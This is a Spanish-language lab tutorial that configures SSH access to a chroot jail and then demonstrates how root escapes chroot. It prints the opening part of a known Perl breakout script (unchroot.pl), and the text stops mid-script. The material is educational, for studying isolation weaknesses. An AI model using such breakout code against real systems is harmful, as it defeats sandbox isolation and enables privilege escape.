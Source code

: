 #### Usando chroot

Edite el archivo de configuración ssh para permitir conexiones remotas
```
vi /etc/ssh/sshd_config
```
```
# To disable tunneled clear text passwords, change to no here!
PasswordAuthentication yes
#PermitEmptyPasswords no
#PasswordAuthentication no
```

Reinicie el servicio de ssh
```
systemctl restart sshd
```

Realice una conexión remota como el usuario jane
```
ssh jane@127.0.0.1
```

**Nota**: Los entornos **chroot** no deben ser diseñados para aislar al usuario root. 

#### Escapando de chroot

A continuación se demuestra como el usuario root puede **escapar** del ambiente aislado chroot.

Existen versiones de esta prueba en lenguaje C, para lo cual se requiere que en el entorno chroot se haya instalado
el compilador de C. Esta versión usa el lenguaje perl, por tanto se requiere que la **victima** al haber creado el entorno de chroot, haya realizado la instalación de perl. 

Ejecute el siguiente comando para simular que se cuenta con el compilador de perl en el ambiente chroot
```
# jk_init -v -j /home/jail perl
```

Ingrese al ambiente chroot como root ejecutando el siguiente comando

```
# chroot /home/jail
```

Verifique que se encuentra dentro del entorno de chroot listando los archivos en el directorio raíz
```
# ls /
```

Por medio de un editor de texto escriba el siguiente script
```
vi prisionbreak.pl
```
```
#!/usr/bin/perl -w
use strict;
# unchroot.pl Dec 2007
# http://pentestmonkey.net/blog/chroot-breakout-perl

# This script may be used for legal purposes only.

# Go to the root of the jail
chdir "/";

# Open filehandle to root of jail
opendir JAILROOT, "." or die "ERROR: Couldn't get file handle to root of jailn";

# Create a subdir, move into it
mkdir "mysubdir";
chdir "mysubdir";
```